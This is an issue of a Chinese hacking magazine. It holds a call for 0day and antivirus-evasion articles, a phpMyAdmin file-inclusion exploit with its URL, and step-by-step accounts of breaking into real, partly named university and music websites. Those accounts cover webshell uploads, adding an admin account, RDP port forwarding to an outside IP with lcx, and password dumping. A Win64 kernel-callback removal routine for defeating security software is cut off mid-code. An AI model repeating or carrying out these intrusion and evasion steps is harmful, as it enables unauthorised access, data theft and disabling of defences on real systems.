《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实力讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 Virus 高级应用技术编写；以及漏洞利用关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 1）技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；  
- 2）在稿件末尾请注明您的账户名、银行账号，以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。  
- 3）投稿方式和周期：  
  采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未录用的恕不退稿，请自留底稿。  
  **重点提示：**严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。  
- 4）稿费发放周期：  
  稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。  
- 5）根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：

| 等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6）稿费发放办法：  
  银行卡发放，支持境内各大银行借记卡，不支持信用卡。  
- 7）投稿信箱及编辑联系  
  投稿信箱：675122680@qq.com、hadefence@gmail.com  
  编辑 QQ：675122680

在攻与防的对立统一中寻求突破

# 黑客防线

总第 167 期 2014

网站全新改版，欢迎访问：http://www.hacker.com.cn

《黑客防线》2014 年第十一期


- phpMyAdmin 后台本地文件包含漏洞解析
- Windows64 枚举并删除内核回调
- Dream 项目管理系统任意文件上传漏洞
- APT 防护探索之天眼系统
- 对某音乐网站的一次渗透
- Windows64 注入 DLL 到系统进程
- 利用 Jfolder 渗透某网站

## 《黑客防线》11 期文章目录

总第 167 期 2014 年

#### 漏洞攻防

- phpMyAdmin 后台本地文件包含漏洞解析（Stēfāń!é）........................3
- Dream 项目管理系统任意文件上传漏洞（bwain）........................5
- 多漏洞渗透某高校网站（佚名）........................................8
- 利用 Jfolder 渗透某网站（赵超）.....................................13
- 对某音乐网站的一次渗透（simeon）...................................19

#### 编程解析

- Windows64 枚举并删除内核回调（胡文亮）............................28
- Windows64 注入 DLL 到系统进程（胡文亮）...........................45

#### 网络安全顾问

- APT 防护探索之天眼系统（xysky）....................................49
- 2014 年第 11 期杂志特约选题征稿....................................54
- 2014 年征稿启事.....................................................57

## phpMyAdmin 后台本地文件包含漏洞解析

文/图 Stéfań!é

近日，phpMyAdmin 爆出了本地文件包含漏洞，其 CVE 编号为 CVE-2014-8959，漏洞适用于 phpMyAdmin 4.0、4.1 和 4.2 版本。导致出现此漏洞的文件为 phpmyadmin/libraries/gis/pma_gis_factory.php。

```php
<?php
/* vim: set expandtab sw=4 ts=4 sts=4: */
/**
 * Contains the factory class that handles the creation of geometric objects
 *
 * @package PhpMyAdmin-GIS
 */
if (!defined('PHPMYADMIN')) {
    exit;
}
/**
 * Factory class that handles the creation of geometric objects.
 *
 * @package PhpMyAdmin-GIS
 */
class PMA_GIS_Factory
{
    /**
     * Returns the singleton instance of geometric class of the given type.
     *
     * @param string $type type of the geometric object
     *
     * @return object the singleton instance of geometric class of the given type
     * @access public
     * @static
     */
    public static function factory($type)
    {
        include_once './libraries/gis/pma_gis_geometry.php';
        $type_lower = strtolower($type);
        if (!file_exists('./libraries/gis/pma_gis_' . $type_lower . '.php')) {
            这里存在判断，判断不严谨，直接文件存在就能继续了
        }
    }
}
```

```php
return false;
}
if (include_once './libraries/gis/pma_gis_' . $type_lower . '.php') {//这里包含
    switch(strtoupper($type)) {
```

class PMA_GIS_Factory 的 static function factory，路径中的 $type_lower 来自于静态方法传入的参数 type，查找使用该类并且调用该静态方法的地方，可发现位于 gis_data_editor.php 63 行。

```php
require_once 'libraries/common.inc.php';//这个文件会对 token 进行校验
require_once 'libraries/gis/pma_gis_factory.php';
require_once 'libraries/gis_visualization.lib.php';

// Get data if any posted
$gis_data = array();
if (PMA_isValid($_REQUEST['gis_data'], 'array')) {
    $gis_data = $_REQUEST['gis_data'];//从 request 获取参数值
}

$gis_types = array(
    'POINT',
    'MULTIPOINT',
    'LINESTRING',
    'MULTILINESTRING',
    'POLYGON',
    'MULTIPOLYGON',
    'GEOMETRYCOLLECTION'
);

// Extract type from the initial call and make sure that it's a valid one.
// Extract from field's values if available, if not use the column type passed.
if (! isset($gis_data['gis_type'])) {
    if (isset($_REQUEST['type']) && $_REQUEST['type'] != '') {
        $gis_data['gis_type'] = strtoupper($_REQUEST['type']);
    }
    if (isset($_REQUEST['value']) && trim($_REQUEST['value']) != '') {
        $start = (substr($_REQUEST['value'], 0, 1) == "'") ? 1 : 0;
```

```php
$gis_data['gis_type'] = substr(
    $_REQUEST['value'], $start, strpos($_REQUEST['value'], "(") - $start
);
}
if ((! isset($gis_data['gis_type']))
    || (! in_array($gis_data['gis_type'], $gis_types))
) {
    $gis_data['gis_type'] = $gis_types[0];
}
}
$geom_type = $gis_data['gis_type'];//赋值给 geom_type

// Generate parameters from value passed.
$gis_obj = PMA_GIS_Factory::factory($geom_type);
//geom_type 传入存在问题的静态方法，产生漏洞
```

登录后获取 token，替换即可实现包含，演示中包含了根目录下一个 txt 文件。

```text
http://192.168.78.129:8080/pmatest/phpMyAdmin-4.0.10.6-all-languages/gis_data_editor.php?token=18b9882e2064362a21a254a959594c0b&gis_data[gis_type]=/../../phpinfo.txt%00
```


真实场景中，可用 phpMyAdmin 导出到类似于 Linux 中的 /tmp/ 目录，并进行包含，可以解决无法获取 Web 路径导出 shell 的问题。  
限制条件：PHP 小于 5.3.4，magic_quotes_gpc 未开启。

## Dream 项目管理系统任意文件上传漏洞

文/图 bwain

系统版本：Dream_1.0 2014.10.20，本系统使用了 ThinkPHP 框架，而漏洞允许最低权限的用户上传任意文件得到 webshell。

来看看成因，漏洞的 URL 为 `/index.php/Public/Upload/save/act/mail?dir=image`。根据 URL 找到漏洞文件：`\Lib\Action\Public\UploadAction.class.php`，allowTypes 居然是验证文件类型，而不是后缀。根据经验立马上传试试，很轻易地就成功了。


图 1

详细分析下 `import('ORG.Net.UploadFile')`，再调用第二个红框中的函数进行上传。根据 THINKPHP 框架的约定，找到下一个文件：`Sys\ThinkPHP\Extend\Library\ORG\Net\UploadFile.class.php`。

这个上传文件的代码很多系统都使用，涉及代码量很大，有需要自己研究的，可以去下载。简单说来，漏洞成因就是只验证了 POST 数据的 Content-Type，把其改为 `image/pjpeg` 就可以随意上传任意后缀名文件，而后缀名则根本不验证。

为什么不验证后缀名呢？如果需要验证后缀名，图 1 还要添加一行代码：`$up->allowExts=array('jpg','gif','png');`

下面是验证处的代码：

```php
private function checkType($type) {
    if(!empty($this->allowTypes))
        return in_array(strtolower($type),$this->allowTypes);
    return true;
}
/**
 * 检查上传的文件后缀是否合法
 * @access private
 * @param string $ext 后缀名
 * @return boolean
 */
private function checkExt($ext) {
    if(!empty($this->allowExts))
        return in_array(strtolower($ext),$this->allowExts,true);
    return true;
}
```

没用权限的用户在利用时，会出现如图 2 所示的提示。


图 2

下面是成功上传的结果，如图 3 所示。


图 3

这个漏洞需要登录后才可以利用。最后看了下最新版 1.1，也可以利用，但没有实际测试。

## 多漏洞渗透某高校网站

文/图 佚名

笔者近日在一高校进行培训，突发兴趣，就对高校网站做了一次简单的渗透，最终只能到 shell，没有尝试去提权。在此将过程写下来，过程比较复杂，用了好些天，但漏洞点确实很简单，主要是两个上传漏洞。好了话不多说，开始。

### 初次试探

首先找到该学校域名，例如：`www.aaaa.edu.cn`，然后在 `cn.bing.com` 中，用“`site:aaa.edu.cn`”作为关键词搜索，就可以找到所有的子域名。接下来，就是一个一个地测试了。

首选目标是教务处，因为里面包含了基本所有学生以及老师的信息，价值较大。进入教务处网页，为 aspx 网站，IIS6+2003 服务，发现一个登录点，如图 1 所示。


图 1

试试 SQL 注入？如果能注出来一个，登录后台再看看详情？那么，开始吧。手工测试了一番无果，注入漏洞找不到。好吧，再回头看看登录框，学生要学号，教师要教号，家长要学号，但是单位那里，却只要密码就可以，如图 2 所示。


图 2

弱密码？试试看！运气爆发，弱密码进去（图 3），看看后台功能。有上传相片？果断测试。


图 3

过程就不细说了，试了很久，给跪了。上传个 aspx 后缀也可以成功，但是上传后，就直接改为 jpg 后缀了，不得不说这种做法很安全。继续看有哪些功能，结果看到了图 4。


图 4

可以查询学生信息，而且有搜索框。试了下，基本所有学院学生信息都可以查询到。到此结束？不，试试搜索框有没有问题。运气好，有注入漏洞，如图 5 所示。


图 5

上 SQLMAP 注吧，用的是 sqlmap 的通用注入方法，直接输入命令注入不成功，不知为何。最后结果是悲剧了，查出来的表名是一堆，猜测是中文名的表，后面验证了这个猜测。

### 转移目标

因第二天还要培训，赶紧睡觉。第二天回来后，再次 `site:*.aaa.edu.cn`，测试了很多站，有注入的，有列目录的，有后台登录不用验证码可以穷举的，还有后台登录框注入的，甚至看到了某些个网页被挂了黑链，我去测试，果断失败，自信心被严重打击。直到遇到这么一个网站，如图 6 所示。


图 6

尝试注册，成功。尝试登录，成功。运气又来了。看看后台功能，如图 7 所示。


图 7

又见文件管理，最爱。测试，居然可以直接上传 aspx 文件，如图 8 所示。


图 8

打开看看，发现这个目录被禁止了运行权限，如图 9 所示，一时间思路中断，但在不断测试中，发现了图 8 中的重命名功能，跨目录？试试。如图 10 所示，居然成功了？！立刻传一句话上去。


图 9


图 10

拿下一台，松了口气，但是凌晨一点了，明天还要培训，睡吧。

### 再次进攻

第三天回来，想想拿下了一个学院的 shell，虽然有些内容，但毕竟没有教务处的数据多，再尝试下教务处？说干就干。这次是要找同服的网站了，`cn.bing.com` 换查询语句：`ip:*.*.*.*`，居然没有。那看端口，扫了下，发现 8080 是开放的，进去看看，如图 11 所示。


图 11

是一个精品课程的网站，很多学校应该也有，接下来分析每个精品课程的网页吧，在差不多点完全部课程网站后，终于迎来了曙光，如图 11 所示。


图 11

Asp 网站，可列目录，还有无数个上传点，并且还有个下载点，基本上可以拿下来了。先想的是下载数据库，但是做了防下载，改了名，还有 `loop<%` 这样的语句存在。于是换方向，上传。下载源码，分析。源码如下：

```asp
<%
Const UpFileType="rar|gif|jpg|bmp|swf|mid|mp3"
Const SaveUpFilesPath="../../UploadFiles"
dim upload,oFile,formName,SavePath,filename,fileExt '变量定义
FoundErr=false '此为是否允许上传的变量，初始化为假，表示可以上传。
EnableUpload=false '此为上传文件扩展名是否合法的变量，初始化为假，表示的是不合法。

SavePath = SaveUpFilesPath '存放上传文件的目录
sub upload_0() '使用化境无组件上传
set upload=new upfile_class '建立上传对象
for each formName in upload.file '用 For 循环读取上传的文件。
set ofile=upload.file(formName) '生成一个文件对象
fileExt=lcase(ofile.FileExt) '将扩展名转换为小写字符
arrUpFileType=split(UpFileType,"|") '读取后台定义的允许的上传扩展名
for i=0 to ubound(arrUpFileType) '第一关，用 FOR 循环读取 arrUpFileType 数组。
if fileEXT=trim(arrUpFileType(i)) then '如果 fileEXT 是允许上传的扩展名
EnableUpload=true 'EnableUpload 为真，表示该文件合法。
exit for
end if
next
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" or fileEXT="cer" then '第二关，验证 fileEXT 是否为 asp、asa、aspx 扩展名。
EnableUpload=false '如果属于这三项之一，那么 EnableUpload 就定义为假，上传文件扩展名不合法
end if
if EnableUpload=false then '第三关，验证关。如果传递到此的 EnableUpload 变量为假，则说明上传文件扩展名不合法。
msg="这种文件类型不允许上传！\n\n 只允许上传这几种文件类型：" & UpFileType
FoundErr=true '注意：因为文件名不合法，就更改了 FoundErr 值，由初始的 false 改为 true。
end if
strJS="<SCRIPT language=javascript>" & vbcrlf
if FoundErr<>true then          '第四关，上传关。如果 FoundErr 不等于 true 才可以上传。
randomize
ranNum=int(900*rnd)+100
filename=SavePath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt    '定义 filename，其值为固定的路径名+年月日及随机值生成的名称+传递过来的 fileExt 扩展名。
ofile.SaveToFile Server.mappath(FileName)    '保存文件 cw's
msg="上传文件成功！"
next
set upload=nothing
end sub
%>
```

很熟悉啊，好久以前的洞了，简单说就是上传完第一个文件后，EnableUpload 没有赋值为 FALSE，导致第二个文件上传时，只要不是 asp、aspx、cer、asa 的文件后缀就可以。上传“asp+空格”吧，结果失败，再次查看源码，发现取后缀用了 `trim(GetFileExt)`，好办，上传“asp.”成功，如图 12 所示。


图 12

后面找数据库用户名密码，连接数据库后，发现用了中文的表名，这样 sqlmap 好像真不好注，有什么解决办法吗？好了，文章到这里结束。

## 利用 Jfolder 渗透某网站

文/图 赵超

JFolder 是一款流行的 JspWebshell 后门，能进行文件管理等操作。在 bing 中进行定位搜索“JFolder.jsp”，如图 1 所示，可以搜索出多个结果。在这些搜索结果可以看到在第 1 个和第 2 个的地址栏中包含有 JFolder.jsp。


图 1

单击第 5 个记录，如图 2 所示进入 **JFolder** 的 **Webshell** 界面，在该界面中可以清楚看到“JFolder_By_hack520”字样。在登录密码中输入一些简单密码进行登录测试，测试结果表明该 shell 采用了自己的密码。在获取这类 WebShell 的处理时，有两种方法——一种是逆向追踪 Webshell 作者，从作者处获取 Webshell，再在 Webshell 中获取登录密码进行测试；另外一种就是直接对存在 Webshell 的网站进行渗透测试。


图 2

在 Webshell 地址中去掉 Webshell 的名称进行浏览，如图 3 所示，其访问地址为 `http://jpkc.whmc.edu.cn/upload/users/system/`，回车后可以获取该目录下的所有图片等文件。测试表明该网站对目录权限设置不严格，允许匿名用户浏览目录。


图 3

依次逐层减少目录进行访问，最终在 webdax 目录获取一个不需要访问密码的 Webshell，如图 4 所示。


图 4

在获取第一个 Webshell 后，可以有选择地上传一些文件，例如上传自己使用熟练的 Webshell，如图 5 所示，上传一个 Jbrowser 的 Webshell，另外上传一些常用的工具软件，如 samsinside 等。


图 5

### 获取网络配置等信息

单击“[Execute Command]”进入命令执行窗口，在其中输入“ipconfig /all”查看该网络的详细配置信息，如图 6 所示，该服务器 IP 地址为 192.168.20.14，说明是内网服务器。再在命令窗口分别执行“net user 1 1 /add”和“net localgroup administrators 1 /add”命令，添加一个管理员用户“1”，密码为“1”。


图 6

将端口映射程序 `lcx.exe` 上传到 `d:/Tomcat 5.5/webapps/webCourse/lcx.exe` 目录中，然后在命令执行窗口执行“`d:/Tomcat 5.5/webapps/webCourse/lcx.exe -slave 182.146.174.135 2222 192.168.20.14 3389`”，将 IP 地址为 192.168.20.14 的内网服务器的 3389 端口，转发到具有外网独立 IP 地址为 182.146.174.135 的服务器的 2222 端口，如图 7 所示，命令执行成功后会显示连接信息。由于未在 202.102.***.** 上进行监听，所以出现连接错误。


图 7

在外网服务器上执行“`lcx -listen 2222 3333`”命令，如图 8 所示，执行成功后会出现一连串的接收和发送数据，表明连接建立成功。


图 8

### 登录服务器

单击“开始”-“运行”，在其中输入“mstsc”，打开远程终端连接，在计算机中输入连接地址“127.0.0.1:3333”，出现连接界面后输入用户名和密码，成功登录服务器，如图 9 所示。


图 9

### 获取服务器密码

上传 `getpass_cmd.exe` 到服务器，运行，运行结果如图 10 所示，成功在内存中找到 administrator 的登录密码。


图 10

## 对某音乐网站的一次渗透

文/图 simeon

本次渗透源于通过 Google 获取了该网站的一个 asp.net 的后门 Webshell，由于没有该 Webshell 的密码，因此需要自己获取。本次渗透通过 SQL 注入获取管理员密码，通过后台上传任意文件而获取 Webshell，在 web 渗透中具有一定的代表性。

### 信息获取

回到本文的正题上来，通过前面的一些方法，已经知道某网站被入侵后还留了一个 asp.net 的后门 Webshell。由于没有该 Webshell 的密码，因此需要通过其它途径来获取。

- 1. 查询该域名主机下有无其它域名主机

打开 `ip866.com` 网站，如图 1 所示，在输入框中输入网站地址 **www.****.com**，然后单击“点这里反查全部相关域名”，获取该域名主机下的所有绑定域名，我大致看了看有 40 多个。


图 1 获取主机绑定域名信息

- 2. 获取 IP 地址以及端口开放情况

分别使用“`ping www.********.com`”以及“`sfind -p 219.133.***.***`”命令获取端口信息等信息，如图 2 所示，ping 命令无反应，主机开放了 80、21 以及 1433 端口。


图 2 获取端口开放等信息

## 漏洞检测

- 1. 使用工具进行漏洞挖掘

打开 Jsky，在其中新建立一个任务，然后进行扫描，如图 3 所示，发现 SQL 注入点 8 个，跨站漏洞 1 个。


图 3 使用 Jsky 扫描网站漏洞

- 2. 进行注入猜解

在图 4-137 中选中一个 SQL 注入点，然后选择使用 pangolin 进行渗透测试。pangolin 程序会自动进行猜解，如果存在漏洞，则会显示 SQL 注入点的类型、数据库、关键字等信息。在图 4 所示，我们直接单击 Tables 猜解数据库表，获取了 admin 和 news 表。


图 4 猜解表

说明：在 pangolin 中需要自己进行一些设置，可以设置文字显示模式，有时候需要手工设置 SQL 注入点的类型（type），以及数据库等信息。

- 3. 猜解管理员表 admin 中的数据

选择 admin 表中的 id、admin_id、admin_name、admin_pass 四个字段，然后单击 pangolin 主界面右中方的“Datas”猜解数据，如图 5 所示。在最下方显示整个表中共 2 条记录，在右边区域显示猜解的结果。管理员密码非常简单，其中一个管理员用户名和密码都是“1”，密码和用户名均未进行加密。


图 5 获取管理员用户名称和密码

- 4. 获取后台地址

在 Jsky 扫描中发现在 admin 目录，因此直接在浏览器中输入“http://www.*********.com/admin/”，打开后台登录地址，如图 6 所示。后台非常简洁，没有验证码之类的东西。


图 6 获取管理后台登录地址

- 5. 进入管理后台

在图 6 中分别输入管理员名称和密码“1”，单击“登录”，成功进入管理后台，如图 7 所示。在后台中主要有“首页/管理中心/退出”、“用户管理”、“添加信息”和“系统信息”四个主要管理模块。


图 7 成功进入后台管理中心

- 6. 寻找上传点

在该网站系统中，新闻动态、友情链接等添加信息接口中，均存在文件上传模块，且未对文件进行过滤，如图 8 所示，可以上传任何类型的文件。在本次测试中就直接将 aspxspy.aspx 文件直接上传上去。


图 8 可上传任何类型的文件

- 7. 寻找上传的 Webshell 地址

上面选择是通过添加友情链接将 webshell 文件上传上去，到网站找到友情链接网页，然后直接查看源代码，如图 9 所示，获取 webshell 的地址。


图 9 获取 Webshell 的真实地址

- 8. 执行 Webshell 成功

在网站中输入 Webshell 的地址：“http://www.xiaobang.com/ads/20081229233452.aspx”，输入管理密码，如图 10 所示，webshell 可以正常运行，单击“Sysinfo”可以查看系统信息。


图 10 执行 Webshell 成功

注意：由于前面已经有人上传了 aspx 的 webshell，加上检测时上传了多个 aspx 的 webshell，因此抓图中有些地址可能不完全匹配。

## 提权之路

- 1. 获取数据库配置文件信息

有 Webshell 后，获取数据库的配置信息就相对简单多了。到网站目录中去寻找 conn.asp、config.asp、inc 等，找到后打开该文件查看其源代码即可获取数据库的物理地址或者配置信息，如图 11 所示。在 aspxspy 中有一个功能特别好用，那就是 iisspy，使用它可以获取该主机下所有的站点目录等信息。


图 11 查看数据库连接文件 conn.asp

- 2. 下载网站数据库

如图 12 所示找到数据库的物理路径，然后单击“down”即可进行下载。在图 4-146 中可以看到系统已经对数据库采取了一些安全措施，比如设置了一个比较难以猜测的名称，但当我们获取 Webshell 后，设置再复杂的名称也是无用了！


图 12 下载数据库

- 3. 执行命令

在 aspxspy 中命令执行不太好用，换一个功能更强大的 aspx 类型的木马，如图 14 所示，可以执行“net user”、“net localgroup administrators”、“ipconfig /all”、“netstat -an”等命令来查看用户、管理员组、网络配置、网络连接情况等信息，但不能执行添加用户等提升权限操作，一执行就报错，如图 13 所示。


图 13 执行基本命令


图 14 执行命令报错

- 4. 读取注册表信息

通过分析，发现该服务器安装了 Radmin 软件，且管理员修改了 Radmin 的默认管理端口 4899。如果能够获取 Radmin 的口令加密值，也可以直接提升权限。单击“Regshell”，在“Key”中输入 Radmin2.x 版本的口令值保存键值“HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters”，然后单击“Read”读取，如图 15 所示，未能成功读取。后面使用其他 Webshell 的注册表读取，还是未成功，说明权限不够。


图 15 读取 Radmin2.x 的口令值失败

- 5. 使用 asp 的 webshell 来提升权限

在有些情况下，aspx 的 webshell 不好使，但 asp 的 webshell 执行效果比较好，如图 16 所示，上传一个 asp 的 webshell，然后分别查看 serv-u 和 pcAnywhere，系统使用了 pcAnywhere 进行远程管理。将其配置文件 CIF 下载到本地。


图 16 获取 pcAnywhere 的配置文件

- 6. 获取 pcAnywhere 的密码

使用“Symantec pcAnywhere Password Crack”软件直接破解刚才获取的 CIF 配置文件，如图 17 所示，顺利地读出 pcAnywhere 远程连接的用户名和密码。后面我安装了 Symantec pcAnywhere，通过它来连接该服务器，连接成功后需要用户名和密码才能进行完全控制。


图 17 破解 pcAnywhere 远程管理密码

## 总结与体会

本次安全检测发现了漏洞，成功获取了 Webshell，且在一定几率下还可以完全控制该服务器（等待管理员进入系统后，未锁定屏幕的过程中，通过 pcAnywhere 来实施远程控制）。在本次检测过程中有以下一些收获和体会：

- 1. 在网络安全攻防实战过程中丰富了安全渗透和检测实践经验。  
  本次检测熟悉了 aspxspy 这个功能强大的 ASP.NET 的 webshell。该 webshell 最大的优点是在获取某一个 Webshell 后，可以通过它来下载其他绑定域名站点的数据库。

- 2. 加深对站点安全防护的认识。  
  在本次检测中我可以明显地感觉到该主机系统进行了一些安全防护，除了 pcAnywhere 程序权限设置不严格外，其他部分的权限设置得还可以。即使入侵者拿到了 Webshell，也无法控制服务器，虽然以牺牲用户资料为代价。

（完）

## Windows64 枚举并删除内核回调

文/图 胡文亮

Win64 系统在正常情况下，不能使用 SSDT HOOK 和内核 INLINE HOOK，所以很多主动防御和游戏保护基本都只能使用内核回调来替代 HOOK 实现部分功能。在 Win64 系统，重要的内核回调包括：ProcessNotify（进程创建/退出）、ThreadNotify（线程创建/退出）、ImageNotify（DLL/驱动加载）、CmpCallback（注册表修改）、ObCallback（打开进程/线程句柄）和 MiniFilter 的 PreCall/PostCall（文件操作）。本文就告诉大家如何在内核里删除这些回调，让别人设下的回调失去作用。

## ProcessNotify 和 ThreadNotify

我们注册的进程回调，会存储在一个名为 PspCreateProcessNotifyRoutine 的数组里。PspCreateProcessNotifyRoutine 可以理解成一个 PVOID 数组，它记录了系统里所有进程回调的地址。这个数组最大长度是 64*sizeof(PVOID)。所以枚举进程回调的思路如下：找到这个数组的地址，然后解密数组的数据，得到所有回调的地址（这个数组记录的数据并不是回调的地址，而是经过加密的地址，需要解密才行）。枚举线程回调同理，要找到 PspCreateThreadNotifyRoutine 的地址（这个数组最大长度也是 64*sizeof(PVOID)），然后解密数据，并把解密后的地址打印出来。

至于怎么处理这些回调就简单了。可以使用标准函数（PsSetCreateProcessNotifyRoutine、PsRemoveCreateThreadNotifyRoutine）将其摘掉，也可以直接在回调函数首地址写入 RET 把回调函数废掉。WIN64AST 就提供了两种方法处理，以对付某些奸诈的游戏保护。

首先要获得 PspCreateProcessNotifyRoutine 的地址。PspCreateProcessNotifyRoutine 在 PsSetCreateProcessNotifyRoutine 函数里出现了。而 PspSetCreateProcessNotifyRoutine 则在 PsSetCreateProcessNotifyRoutine 中被调用（注意前一个是 PspXXX，后一个是 PsXXX）。找到 PsSetCreateProcessNotifyRoutine 之后，再匹配特征码：

```text
lkd> U PsSetCreateProcessNotifyRoutine
nt!PsSetCreateProcessNotifyRoutine:
fffff800`042d83c0 4533c0            xor     r8d,r8d
fffff800`042d83c3 e9e8fdffff        jmp     nt!PspSetCreateProcessNotifyRoutine
(fffff800`042d81b0)
fffff800`042d83c8 90                nop
fffff800`042d83c9 90                nop
fffff800`042d83ca 90                nop
fffff800`042d83cb 90                nop
fffff800`042d83cc 90                nop
fffff800`042d83cd 90                nop
lkd> uf    PspSetCreateProcessNotifyRoutine
nt!PspSetCreateProcessNotifyRoutine:
fffff800`042d81b0 48895c2408        mov     qword ptr [rsp+8],rbx
fffff800`042d81b5 48896c2410        mov     qword ptr [rsp+10h],rbp
fffff800`042d81ba 4889742418        mov     qword ptr [rsp+18h],rsi
```

```asm
fffff800`042d81bf 57                push    rdi
fffff800`042d81c0 4154              push    r12
fffff800`042d81c2 4155              push    r13
fffff800`042d81c4 4156              push    r14
fffff800`042d81c6 4157              push    r15
fffff800`042d81c8 4883ec20          sub     rsp,20h
fffff800`042d81cc 4533e4            xor     r12d,r12d
fffff800`042d81cf 418ae8            mov     bpl,r8b
fffff800`042d81d2 4c8be9            mov     r13,rcx
fffff800`042d81d5 418d5c2401        lea     ebx,[r12+1]
fffff800`042d81da 413ad4            cmp     dl,r12b
fffff800`042d81dd 0f840e010000      je      nt!PspSetCreateProcessNotifyRoutine+0x141
(fffff800`042d82f1)

nt!PspSetCreateProcessNotifyRoutine+0x33:
fffff800`042d81e3 65488b3c2588010000 mov    rdi,qword ptr gs:[188h]
fffff800`042d81ec 83c8ff            or      eax,0FFFFFFFFh
fffff800`042d81ef 660187c4010000    add     word ptr [rdi+1C4h],ax
fffff800`042d81f6 4c8d358395d6ff    lea     r14,[nt!PspCreateProcessNotifyRoutine
(fffff800`04041780)]

// 省略后续无关代码
```

于是我们根据特征码写出了以下代码（仅在 WIN7X64 上有效，WIN8、8.1 需要自己重新定义特征码）。

```cpp
ULONG64 FindPspCreateProcessNotifyRoutine()
{
    LONG            OffsetAddr=0;
    ULONG64         i=0,pCheckArea=0;
    UNICODE_STRING  unstrFunc;
    //获得 PsSetCreateProcessNotifyRoutine 的地址
    RtlInitUnicodeString(&unstrFunc, L"PsSetCreateProcessNotifyRoutine");
    pCheckArea = (ULONG64)MmGetSystemRoutineAddress(&unstrFunc);
    //获得 PspSetCreateProcessNotifyRoutine 的地址
    memcpy(&OffsetAddr,(PUCHAR)pCheckArea+4,4);
    pCheckArea=(pCheckArea+3)+5+OffsetAddr;
    DbgPrint("PspSetCreateProcessNotifyRoutine: %llx",pCheckArea);
    //获得 PspCreateProcessNotifyRoutine 的地址
    for(i=pCheckArea;i<pCheckArea+0xff;i++)
    {
        if(*(PUCHAR)i==0x4c && *(PUCHAR)(i+1)==0x8d && *(PUCHAR)(i+2)==0x35)
        {
            LONG OffsetAddr=0;
            memcpy(&OffsetAddr,(PUCHAR)(i+3),4);
            return OffsetAddr+7+i;
        }
    }
    return 0;
}
```

找到了 **PspCreateProcessNotifyRoutine**，枚举操作就好办了。需要说明的是，在 **PspCreateProcessNotifyRoutine** 里的数据竟然被加密了，需要把数组的值和 **0xffffffffffffff8** 进行“与”位运算才可以。

```cpp
void EnumCreateProcessNotify()
{
    int i=0;
    BOOLEAN b;
    ULONG64 NotifyAddr=0,MagicPtr=0;
    ULONG64 PspCreateProcessNotifyRoutine=FindPspCreateProcessNotifyRoutine();
    DbgPrint("PspCreateProcessNotifyRoutine:%llx",PspCreateProcessNotifyRoutine);
    if(!PspCreateProcessNotifyRoutine)
        return;
    for(i=0;i<64;i++)
    {
        MagicPtr=PspCreateProcessNotifyRoutine+i*8;
        NotifyAddr=*(PULONG64)(MagicPtr);
